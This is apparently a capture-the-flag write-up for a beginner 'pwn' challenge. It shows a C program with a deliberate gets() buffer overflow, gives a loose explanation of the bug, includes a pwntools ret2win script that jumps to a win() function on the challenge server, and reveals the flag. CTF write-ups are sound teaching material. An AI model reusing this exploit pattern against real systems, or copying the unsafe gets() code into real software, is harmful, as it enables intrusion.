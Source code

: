 # Is pwn really that easy?
> gacoan nya 1 mas
> nc minictf.ucs.or.id 2001

Author: mirai

Solve:

Here is a C code script:
```
#include <stdio.h>
#include <signal.h>

void init()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

void win()
{
    FILE *fp = fopen("/flag.txt", "r");
    char flag[256];
    fgets(flag, sizeof(flag), fp);
    printf("Flag: %s\n", flag);
    fclose(fp);
}

int main()
{
    init();
    char buffer[0x10];
    printf("input something here: ");
    gets(buffer);
    return 0;
}
```

As you can see, this is buffer overflow. What is that?
Buffer overflow is a vulnerability that written to a buffer also corrupts data values in memory addresses adjacent to the destination buffer due to insufficient bounds checking. So when on limits, it getting over and over untul it broke the limits and making
some data get leak. (i hope you can understand from what i'm saying). Lets get back to topic.

I use command `objdump -d ./easy | grep win` and the result `00000000004011d7 <win>:`. As i need it, i use chatgpt to making some exploit command to getting flag. Here the command:
```
from pwn import *

# Konfigurasi
host = "minictf.ucs.or.id"  # host 
port = 2001       # port challenge

# Alamat fungsi win (dari yang kamu kasih: 0x4011d7)
win_addr = 0x4011d7

# Offset buffer overflow (contoh: 0x18 = 24 byte, kalau beda tinggal adjust)
offset = 0x18

# Buat payload
payload = b"A" * offset
payload += p64(win_addr)

# Koneksi ke server
p = remote(host, port)
p.sendline(payload)
p.interactive()
```
So when i try to running it, here the result:

<img width="1402" height="199" alt="image" src="https://github.com/user-attachments/assets/a88d30f8-00f7-4a4d-b5d7-3293741abe3b" />

Then we got the flag~
```
Flag: UCS{kamu tau gak apa yang paling aku cintai dari dia. senyumnya, tawa nya serta karakter nya yang penuh semangat dan selalu membawa keceriaan di mana pun ia berada}
```
